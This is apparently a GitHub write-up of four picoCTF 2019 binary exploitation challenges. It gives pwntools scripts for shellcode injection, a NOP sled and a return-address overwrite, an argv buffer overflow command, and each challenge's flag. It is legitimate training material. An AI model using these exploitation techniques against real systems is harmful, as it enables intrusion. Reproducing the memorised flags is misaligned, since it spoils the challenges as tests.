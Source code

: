 
# PICO CTF (2019)<a name="picoctf19"></a>
[<p align="right">back to main</p>](https://github.com/Ordered-Chaos/Pwnfolio#main)
***
## Table of Contents
| Problem | Category | Points | Problem | Category | Points |
| ------- | -------- | ------ | ------- | -------- | ------ | 
| [Handy Shellcode](#handyshellcode) | Binary Exploitation | 50 | [Overflow 0](#overflow0) | Binary Exploitation | 100 |
| [Slippery Shellcode](#slipperyshellcode) | Binary Exploitation | 200 | Overflow 1(#overflow1) | Binary Exploitation | 150 |

***

## HANDY SHELLCODE <a name="handyshellcode"></a>

> ### Problem 
>> This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? 
>> You can find the program in /problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6 on the shell server. 
>> [(Source)](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/Pico_CTF(2019)/Sources/handshellcodesource.md#handyshellsource)
>
> ### Solution
>> The solution here is pretty straightforward. All you need to do is supply the program with shellcode
>> and it will execute it. A simple pwntools script using `shellcraft.sh()` as the payload can get this done.

~~~python
#!/usr/bin/env python

from pwn import *

context.clear(os='linux', arch='i386')
context.log_level = 'info'

s = ssh(host='2019shell1.picoctf.com', user='User', password='Pa$$w0rd')

io = s.process('vuln',cwd='/problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6')

shellcode = asm(shellcraft.sh())

payload = shellcode

print io.recv()
io.sendline(payload)

print io.recv()
io.sendline('cat flag.txt')

print io.recv()

~~~

**Flag:** *picoCTF{h4ndY_d4ndY_sh311c0d3_707f1a87}*

[Return to Top](#picoctf19)
***

## SLIPPERY SHELLCODE <a name="slipperyshellcode"></a>

> ### Problem 
>> This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? 
>> You can find the program in /problems/slippery-shellcode_6_7cf1605ec6dfefad68200ceb12dd67a1 on the shell server.
>> [(Source)](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/Pico_CTF(2019)/Sources/slipperyshellcode.md#slipperyshellsource1)
>
> ### Solution
>> In this challenge we again need to supply the program with shellcode using `shellcraft.sh()`. The source code
>> reveals that this time, the program will begin execution of the shellcode from a random location within a 256 
>> byte range. To make sure that we execute our code, all that needs to be done is to supply an 'x\90' NOP sled
>> that's 256 bytes long directly preceding the shellcode. This can be done with the following pwntools script.

~~~python
#!/usr/bin/env python

from pwn import *

context.clear(os='linux', arch='i386')
context.log_level = 'info'

s = ssh(host='2019shell1.picoctf.com', user='User', password='Pa$$w0rd')

io = s.process('vuln',cwd='/problems/slippery-shellcode_6_7cf1605ec6dfefad68200ceb12dd67a1')

padding = '\x90' * 256
shellcode = asm(shellcraft.sh())

payload = padding + shellcode

print io.recv()
io.sendline(payload)

print io.recv()
io.sendline('cat flag.txt')

print io.recv()
~~~

**Flag:** *picoCTF{sl1pp3ry_sh311c0d3_5a0fefb6}*

[Return to Top](#picoctf19)
***
## OVERFLOW 0<a name="overflow0"></a>

> ### Problem
>> This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in 
>> /problems/overflow-0_1_54d12127b2833f7eab9758b43e88d3b7 on the shell server. [(Source)](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/Pico_CTF(2019)/Sources/overflow0source.md#overflow0source1)

> ###  Solution
>> After looking at the program, you can tell that it checks to see if `argv[]` is greater or less than the buffer. If it is, then it prints the flag file.
>> So all we have to do is call `./vuln` with more than 64 arguments.
~~~bash
kali@kali:~/ctf/pico/overflow0$ ssh User@2019shell1.picoctf.com 'cd /problems/
overflow-0_1_54d12127b2833f7eab9758b43e88d3b7; ./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
~~~

**Flag:** *picoCTF{3asY_P3a5yb197d4e2}*

[Return to Top](#picoctf19)
***

## OVERFLOW 1<a name="overflow1"></a>

> ### Problem
>> You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? 
>> You can find it in /problems/overflow-1_6_0a7153ff536ac8779749bc2dfa4735de on the shell server.
>> [(Source)](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/Pico_CTF(2019)/Sources/overflow1source.md#overflow1source1)

> ### Solution
>> 
>> 

~~~python
#!/usr/bin/env python

from pwn import *

context.clear(os='linux', arch='i386')
context.log_level = 'info'

s = ssh(host='2019shell1.picoctf.com', user='User', password='Pa$$w0rd')

io = s.process('vuln',cwd='/problems/overflow-1_6_0a7153ff536ac8779749bc2dfa4735de')

padding = cyclic(cyclic_find('taaa'))
flag = p32(0x080485e6)

payload = padding 
payload += flag

print io.recv()
io.sendline(payload)

print io.recv()
~~~

**Flag:** *picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5b80c9cbf}*

[Return to Top](#picoctf19)
***
